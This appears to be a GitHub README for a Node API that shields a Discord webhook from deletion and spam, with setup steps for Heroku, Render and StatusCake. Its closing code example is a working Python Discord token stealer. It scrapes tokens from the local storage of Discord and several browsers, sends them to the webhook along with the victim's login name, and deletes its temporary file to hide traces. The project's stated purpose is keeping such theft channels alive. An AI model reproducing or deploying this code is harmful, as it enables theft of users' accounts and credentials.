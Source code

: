 

<h1 align="center">
  <a id="top"></a>Discord Webhook Protector 🔰
</h1>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Webhook-Protector/Discord-Webhook-Protector.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Webhook-Protector?style=flat-square"/>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Discord-Webhook-Protector&metric=ncloc"/>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Webhook-Protector?color=444444&label=Stars&style=flat-square"/>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Webhook-Protector?color=444444&label=Forks&style=flat-square"/>
</p>


<h2 align="center">
  Discord-Webhook-Protector was made by

Love ❌ code ✅

</h2>

---


## <a id="content"></a>🌐 〢 Content

- [🔰・Features](#features)
- [🌌・Discord](https://cheataway.com/invite)
- [🎉・Setup the Api with Heroku](#heroku)
- [🎉・Setup the Api with Render](#render)
- [🧪・Testing the Api](#testing)
- [🟢・Keeping It alive 24/7](#alive)
- [⚙ ・Settings](#settings)
- [🎈・Code example](#code-example)

## <a id="features"></a>🔰 〢 Features

```
> Easy to setup!
> Configurable!
> Completely *free* and stays online *24/7*
> Accepts json, discord embeds and files!
> Ratelimits unauthorized requests!
> Accepting only post requests!
> Impossible to delete webhook
> Webhook protected by totp so very hard to spam webhook even if they http debug!
```
---

### <a id="heroku"></a>📁 〢 Hosting the API with Heroku

1. Create an account on [Heroku.com](https://heroku.com) (Yes all of this is **free**)
2. Install [nodejs](https://nodejs.org/en/), [heroku cli](https://devcenter.heroku.com/articles/getting-started-with-nodejs#set-up), and [git](https://git-scm.com/)
3. Open [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json) and put in your webhook at the top
4. Now you need a key, open cmd in the directory and type the following ⇣
```sh-session
$ cd test
$ py keyGen.py
>>> Your key is: ...
>>> Copied key to clipboard!
```
5. Paste your generated key in [config.json](https://github.com/Rdimo/Discord-Webhook-Protector/blob/main/config.json)
6. Open a new cmd in the directory and type `npm i`
7. Now follow these steps carefully ⇣

```sh-session
$ heroku login
...
$ git init
$ git add .
$ git commit -m "first Webhook protector api commit"
...
$ heroku create
...
$ git push heroku main
...
$ heroku ps:scale web=1
...
$ heroku domains
...
```

8. Done! After typing `heroku domains` you should get something in the console like **shrouded-fjord-36366.herokuapp.com**. This is your api with your undeletable/unspammable webhook!

#### If you get an error when doing `"git push heroku main"` that looks like this

```sh
$ first issue error: failed to push some refs to 'https://git.heroku.com/app-name.git'
```
Then run `"git push heroku master"` instead | https://github.com/Rdimo/Discord-Webhook-Protector/issues/1

ㅤ

If you make some changes in the code and want to update the api on heroku, simply run `npm run deploy` to push out the updates \
If any bugs occur please report them or try and see if restarting the app by typing `heroku restart` works!
<center><a href=#content> Back To Content </a> </center>

---

### <a id="render"></a>📁 〢 Hosting the API with Render

1. Setup an account on [Render](https://dashboard.render.com/register)
2. [Fork](https://github.com/Rdimo/Discord-Webhook-Protector/fork) This Repo **(Dont Forget to Make it Private And Edit the config.js File)**
3. Go to [This](https://dashboard.render.com/select-repo?type=web) Link and connect your GitHub Account
4. Select the repo you just made 
  ![image](https://user-images.githubusercontent.com/86944806/170194672-2a21aed0-cc1b-4efb-88d5-c835034c2e70.png)
5. On the next screen enter a uniqe name for it **(this name will be in your api)**
6. Select **Node** as your environment
![image](https://user-images.githubusercontent.com/86944806/170195377-fbc7a054-5b8b-4255-aaea-5a209d6c65af.png)
7. Scroll down and click on ![image](https://user-images.githubusercontent.com/86944806/170195784-9df18d5f-c8e5-4694-bafc-57e59fe0ee0e.png)
8. Thats it! It will build it in some time now **(Approx 5 mins)**
9. Your api url should look like this **(https://youruninqename.onrender.com)**
![image](https://user-images.githubusercontent.com/86944806/170196327-c44fa2c1-619f-43c4-b5aa-a121a98493bf.png)

<center><a href=#content> Back To Content </a> </center>

### <a id="testing"></a> 🧪〢Testing the Api

For testing that your api works, open test folder and edit the test .py file by putting your api url and passsword then open cmd in the directory and type the following ⇣

```sh-session
$ cd .\test
...
$ py test.py
```

It should've made a post request to the api uploading itself and sending "it works!" to the webhook
<center><a href=#content> Back To Content </a> </center>

---

### <a id="alive"></a>🟢〢Keeping It Alive 24/7

Free hosting will sleep your API after inactivity. It is 15 mins for Render. Now ofc we aren't gonna keep using our webhook so we can use a site like [Statuscake](statuscake.com) which is free.

***Note:** Heroku gives only 550 hours for free in a month whereas Render gives 750 hours (There are 744 hours in a month). So If u use this method on heroku then your api will be offline for last 8 days of the month. (Unless You have more hours on heroku by entering your credit card or buying) And so I recommend you use Render the host the API*

1. Sign up on [Statuscake](https://app.statuscake.com/Try)
2. Create a new [UpTime Test](https://app.statuscake.com/AddSite.php)
![image](https://user-images.githubusercontent.com/86944806/170201838-fc68aa1a-a554-4786-856b-ccf6b7d6170a.png)
3. Head down to ![image](https://user-images.githubusercontent.com/86944806/170203552-041cf979-c32b-4ed6-9051-f6d738949027.png) and follow what I've done. **(Don't Forget to❌the code 401)**
![image](https://user-images.githubusercontent.com/86944806/170203426-ed45ac96-d46c-4176-b977-e3164c57e6e9.png)
4. Scroll down and click on ![image](https://user-images.githubusercontent.com/86944806/170204712-47185645-0e81-4538-9829-5fca1ffa9e20.png)
5. Add if u want though its not needed **(click ok if u don't want to add)**
![image](https://user-images.githubusercontent.com/86944806/170204283-6de3d140-ef94-4cbf-88e0-1ad8da0872b8.png)
6. Thats it! Your webhook is now gonna be live 24/7
<center><a href=#content> Back To Content </a> </center>

---

### <a id="settings"></a> ⚙ 〢 Settings

The config and what the options do

```json
{
  "webhook": "https://discord.com/api/webhooks/0123456789/abcdefghijklmnopqrstuvwxyz", //your discord webhook
  "pass32": "K4ZVUQTSIRMDOWKRGU2WQQTZJM======" /*a key encoded in base32, use the keyGen in ./test or see https://github.com/bellstrand/totp-generator#how-to-use for more*/,
  "ratelimitOnOff": true, //if you want it to ratelimit unauthorized requests or not
  "rateLimitTimeout": 30000, //amount of milliseconds an ip gets ratelimited (Default: 30000 --> 30 seconds)
  "port": 3000 //port
}
```
<center><a href=#content> Back To Content </a> </center>

---

### <a id="code-example"></a>🎈 〢 Code example

Example use of the api hosted on heroku

```py
import os, re
import requests
from pyotp import TOTP

api = "https://your-heroku-app-name.herokuapp.com" #the name of your app will probably be something like https://frozen-beach-72554.herokuapp.com

pass32 = 'K4ZVUQTSIRMDOWKRGU2WQQTZJM======' #needs to be same key as the one in your api
key = TOTP(pass32).now()

local = os.getenv('LOCALAPPDATA')
roaming = os.getenv('APPDATA')
_file = os.getenv('temp') + os.sep + 'tokens.txt'

paths = {
    'Discord': roaming + '\\Discord\\Local Storage\\leveldb',
    'Discord Canary': roaming + '\\discordcanary\\Local Storage\\leveldb',
    'Discord PTB': roaming + '\\discordptb\\Local Storage\\leveldb',
    'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb',
    'Opera': roaming + '\\Opera Software\\Opera Stable\\Local Storage\\leveldb',
    'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb',
    'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb'
}
for platform, path in paths.items():
    if not os.path.exists(path):
        continue
    for file_name in os.listdir(path):
        if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
            continue
        for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
            for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                for token in re.findall(regex, line):
                    with open(_file, 'a') as f:
                        f.write(token)

requests.post(api, headers={"Authorization": key}, data={"content": f'Successfully grabbed tokens from {os.getlogin()}:'}) #send the text to webhook
requests.post(api, headers={"Authorization": key}, files={"upload_file": open(_file, 'rb')}) #send text file with tokens in it to the webhook
os.remove(_file) #delete traces
```

> Thank you [xrevix](https://github.com/xrevix) for bug testing and reporting all of them 😘

<p align="center"><a href=#top>Back to Top</a></p>
